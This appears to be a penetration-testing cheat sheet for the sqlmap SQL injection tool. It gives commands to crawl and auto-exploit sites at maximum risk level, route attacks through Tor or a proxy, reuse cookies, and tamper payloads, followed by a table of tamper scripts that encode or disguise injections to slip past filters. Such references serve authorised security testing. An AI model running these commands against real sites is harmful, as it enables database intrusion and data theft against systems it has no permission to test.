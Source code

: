### Crawl a website with SQLmap and auto-exploit

```text
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3
```

> * `--batch` = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
> * `--crawl` = how deep you want to crawl a site
> * `--forms` = Parse and test forms

### TOR

```text
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Proxy

```text
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Cookie and a Proxy

```text
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```

### Using suffix to tamper the injection

```text
python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "
```

### General tamper option 

```text
tamper=name_of_the_tamper
```

### Tamper list

| Tamper | Description |
| :--- | :--- |
| 0x2char.py | Replaces each \(MySQL\) 0x encoded string with equivalent CONCAT\(CHAR\(\),…\) counterpart |
| apostrophemask.py | Replaces apostrophe character with its UTF-8 full width counterpart |
| apostrophenullencode.py | Replaces apostrophe character with its illegal double unicode counterpart |
| appendnullbyte.py | Appends encoded NULL byte character at the end of payload |
| base64encode.py | Base64 all characters in a given payload |
| between.py | Replaces greater than operator \('&gt;'\) with 'NOT BETWEEN 0 AND \#' |
| bluecoat.py | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator |
| chardoubleencode.py | Double url-encodes all characters in a given payload \(not processing already encoded\) |
| charencode.py | URL-encodes all characters in a given payload \(not processing already encoded\) \(e.g. SELECT -&gt; %53%45%4C%45%43%54\) |
| charunicodeencode.py | Unicode-URL-encodes all characters in a given payload \(not processing already encoded\) \(e.g. SELECT -&gt; %u0053%u0045%u004C%u0045%u0043%u0054\) |
| charunicodeescape.py | Unicode-escapes non-encoded characters in a given payload \(not processing already encoded\) \(e.g. SELECT -&gt; \u0053\u0045\u004C\u0045\u0043\u0054\) |